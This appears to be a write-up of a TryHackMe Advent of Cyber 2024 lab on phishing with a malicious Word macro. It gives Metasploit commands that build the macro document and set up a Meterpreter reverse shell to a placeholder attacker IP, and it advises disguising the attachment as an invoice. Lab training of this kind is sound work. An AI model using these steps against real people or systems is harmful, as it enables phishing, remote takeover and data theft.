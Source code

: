 # **Tutorial: Room - [Advent of Cyber 2024 - Day 10]**

## 📖 Description
In this room, the objective was to exploit a vulnerability in a Microsoft Word document containing a malicious macro. We used Metasploit to set up a reverse shell, which allowed us to remotely access the victim's machine and capture the flag.

---

### **Learning Objectives**
- Understand how phishing attacks work.
- Discover how macros in documents can be used and abused.
- Learn how to carry out a phishing attack with a macro.

---

### **Phishing Attacks**
Security is only as strong as the weakest link in the chain. Many would argue that humans are often the weakest link in security. Is it easier to exploit a patched system behind a firewall, or to convince a user to open an "important" document? This is why "human hacking," or social engineering, is often the easiest route to compromise a system.

Phishing, a form of social engineering, works by sending "bait" to a large group of target users. The attacker often crafts the message with a sense of urgency, prompting the target to take immediate action, which increases the chances of success. The goal is to steal personal information or install malware by convincing the user to open a file, fill out a form, or click a link.

An example might be an email claiming that a large charge is pending, urging the recipient to check the attached document or URL. The attacker just needs the target to open the file or click the link, triggering actions that allow them to control the victim's system.

---

### **Macros**
Macros are used to automate repetitive tasks, such as inserting text or performing calculations. Microsoft Office products like Word support macros, which can be a huge time-saver for users. However, these macros can also be hijacked and used for malicious purposes in cyber attacks.

In the case of phishing, an attacker can create a document with a macro that, once opened, executes a payload on the victim's system, giving the attacker remote control.

---

### **Attack Plan**
The attacker, Mayor Malware, needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the attacker’s machine, giving them remote control. The steps are as follows:

1. Create a document with a malicious macro.
2. Start listening for incoming connections on the attacker’s system.
3. Send the malicious document and wait for the victim to open it.
4. The victim opens the document and connects to the attacker’s system.
5. The attacker gains control of the victim’s system.

---

## 🛠️ Prerequisites
- Active account on [TryHackMe](https://tryhackme.com)
- Basic knowledge of Metasploit and social engineering attacks.
- Tools required:
  - [Metasploit](https://docs.metasploit.com/)
  - [Email client to send the malicious file using RainLoop]

---

## 🚀 Step-by-Step Guide

### 1️⃣ Initial Setup in Metasploit
First, we need to configure the Metasploit payload. We’ll use a `windows/meterpreter/reverse_tcp` payload to receive a reverse connection from the victim's machine.

```bash
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

### 2️⃣ Exploiting the Malicious Document
After setting up the exploit, we need to generate the malicious Word file with a macro and send it to the victim. Once the victim opens the file, the reverse shell will be triggered, establishing the connection.

---

### 3️⃣ Sending the Malicious Document via Email
To send the malicious document, we will use RainLoop, a webmail client available on the attacker's machine. You can access it by visiting the provided link on the AttackBox.

- **Link for accessing RainLoop**: [Link to RainLoop webmail client]
- **Login credentials**:
  - **Email**: `info@socnas.thm`
  - **Password**: `MerryPhishMas!`

Once logged in, compose an email to the victim (`marta@socmas.thm`). Attach the malicious Word file (renaming it to something convincing like `invoice.docm` or `receipt.docm`), and craft a message to encourage the victim to open it. For example, mention that it contains an important invoice or document that requires their attention.

---

### 4️⃣ Handling the Connection in Metasploit
After the victim opens the malicious file, the reverse connection is made. We configure Metasploit to listen for incoming connections.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

### 5️⃣ Gaining Access to the Victim's Machine
Once the victim opens the document and runs the macro, we gain access to their system via the reverse shell. Now we can execute commands on their machine.

---

### 6️⃣ Capturing the Flag
With access to the victim’s machine, we navigate to the desktop and read the flag file.

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

### 7️⃣ Conclusion
By running the cat flag.txt command, we successfully obtain the flag, completing the room. Congratulations!

### 🖼️ Resources
(Include screenshots or useful links here.)

### 📌 Final Notes
This exercise demonstrated how to perform a phishing attack using a malicious macro to gain remote access to a system and exfiltrate information.

### 🏆 Final Outcome
After completing all the steps and capturing the flag, the room is finished.
